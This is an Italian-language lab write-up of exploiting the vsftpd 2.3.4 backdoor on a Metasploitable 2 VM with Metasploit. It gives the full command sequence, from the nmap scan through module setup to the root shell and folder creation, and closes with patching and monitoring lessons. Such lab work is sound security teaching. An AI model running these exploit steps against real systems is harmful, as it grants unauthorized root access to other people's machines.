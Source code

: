 # 🚀 Hacking con Metasploit - Exploit vsftpd 2.3.4

## 📋 Descrizione dell'Esercizio
L'obiettivo di questa attività era condurre un attacco utilizzando **Metasploit Framework** contro una macchina virtuale vulnerabile **Metasploitable 2**. Abbiamo sfruttato una backdoor presente nel servizio **vsftpd 2.3.4** sulla porta FTP (21). 

🎯 **Risultato finale**: Creazione di una cartella chiamata **test_metasploit** all'interno della directory **/root** della macchina target, dimostrando il successo dell'attacco.

---

## 🛠️ Configurazione dell'Ambiente

### 🖥️ Macchina Attaccante
- **Sistema Operativo**: Kali Linux 2023.1
- **Strumento**: Metasploit Framework

### 🎯 Macchina Target
- **Sistema Operativo**: Metasploitable 2
- **Indirizzo IP**: `192.168.1.149/24`
- **Servizio Vulnerabile**: vsftpd 2.3.4
- **Porta FTP**: 21

---

## 🔎 Passaggi Eseguiti

### 1️⃣ Scansione del Servizio FTP
Ho utilizzato **Nmap** per verificare la presenza del servizio FTP sulla porta 21 della macchina target:
```bash
nmap -p 21 192.168.1.149
```
✅ **Output**:
```
PORT   STATE SERVICE
21/tcp open  ftp
```
La scansione conferma che il servizio FTP sulla porta 21 è attivo.

---

### 2️⃣ Avvio di Metasploit e Caricamento dell'Exploit
Ho avviato Metasploit e cercato l'exploit per **vsftpd 2.3.4**:
```bash
msfconsole
search vsftpd
```
Ho selezionato e configurato l'exploit:
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.1.149
set RPORT 21
```

---

### 3️⃣ Esecuzione dell'Exploit
Ho lanciato l'exploit con il comando:
```bash
exploit
```

🚀 **Output**:
```
[*] 192.168.1.149:21 - The port used by the backdoor bind listener is already open
[+] 192.168.1.149:21 - UID: uid=0(root) gid=0(root)
[*] Command shell session 1 opened...
```
🎉 L'exploit ha avuto successo e ho ottenuto una **shell con privilegi root**.

---

### 4️⃣ Navigazione e Creazione della Cartella
Dopo aver ottenuto accesso alla shell, ho verificato la struttura delle directory e ho creato la cartella **test_metasploit**:
```bash
cd /root
mkdir test_metasploit
ls
```
✅ **Output**:
```
hacking_test  test_metasploit
```
📁 La cartella **test_metasploit** è stata creata con successo.

---

## 🖼️ Screenshot dei Risultati
1. **Avvio dell'Exploit**: Ottenimento della shell root.
2. **Creazione della Cartella**: Verifica della presenza di `test_metasploit`.

![Screen1](./Screen1.png) 
![Screen2](./Screen22.png) 

![Screen3](./Screenshot23.png)

![Screen4](./Screenshot24.png) 

![Screen5](./Screenshot25.png) 

![Screen6](./Screenshot26.png)


---

## 🏆 Risultati Finali
- ✅ **Accesso Root Ottenuto**: Ho sfruttato con successo la vulnerabilità del servizio `vsftpd 2.3.4`.
- 📂 **Creazione della Cartella**: La cartella `test_metasploit` è stata creata nella directory `/root`.

---

## 🔐 Conclusioni
L'esercizio ha dimostrato come una versione obsoleta e vulnerabile di un servizio possa essere sfruttata per ottenere accesso root a un sistema remoto. Questa attività evidenzia l'importanza di:
1. 🛡️ **Patch di Sicurezza**: Mantenere i servizi aggiornati.
2. 🔍 **Monitoraggio**: Controllare costantemente i servizi in ascolto su una macchina.
3. 🧪 **Ambienti Isolati**: Eseguire test di sicurezza in ambienti controllati come Metasploitable.

---

## 📚 Comandi Utilizzati
1. **Scansione Nmap**:
   ```bash
   nmap -p 21 192.168.1.149
   ```
2. **Configurazione Metasploit**:
   ```bash
   msfconsole
   use exploit/unix/ftp/vsftpd_234_backdoor
   set RHOST 192.168.1.149
   set RPORT 21
   exploit
   ```
3. **Navigazione e Creazione Cartella**:
   ```bash
   cd /root
   mkdir test_metasploit
   ls
   ```

---

